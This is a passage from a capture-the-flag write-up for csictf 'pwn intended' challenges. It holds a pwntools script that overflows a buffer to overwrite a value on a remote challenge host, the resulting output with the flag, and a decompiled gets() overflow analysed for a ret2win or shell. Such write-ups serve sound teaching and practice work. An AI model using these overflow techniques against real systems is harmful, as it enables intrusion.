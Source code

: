 
### Exploit

```python
#!/usr/bin/python3

from pwn import *

p = remote('chall.csivit.com', 30007)
payload  = 44 * b'A'
payload += p64(0xcafebabe)
p.sendlineafter('Welcome to csictf! Where are you headed?\n',payload)
p.interactive()
```

### Output

```bash
# ./exploit.py
[+] Opening connection to chall.csivit.com on port 30007: Done
[*] Switching to interactive mode
Safe Journey!
You've reached your destination, here's a flag!
csictf{c4n_y0u_re4lly_telep0rt?}
```


## pwn intended 0x3

Tags: _pwn_ _bof_ _ret2win_ _remote-shell_ _got-overwrite_ _x86-64_

### Analysis

```c
undefined8 main(void)
{
  char local_28 [32];
  
  puts("Welcome to csictf! Time to teleport again.");
  gets(local_28);
  return 0;
}

void flag(void)
{
  puts("Well, that was quick. Here\'s your flag:");
  system("cat flag.txt");
  exit(0);
}
```

`gets` buffer overflow `0x28` bytes (`local_28` is `0x28` bytes from return address) + address of `flag` for _ret2win_ _OR_ get a shell.
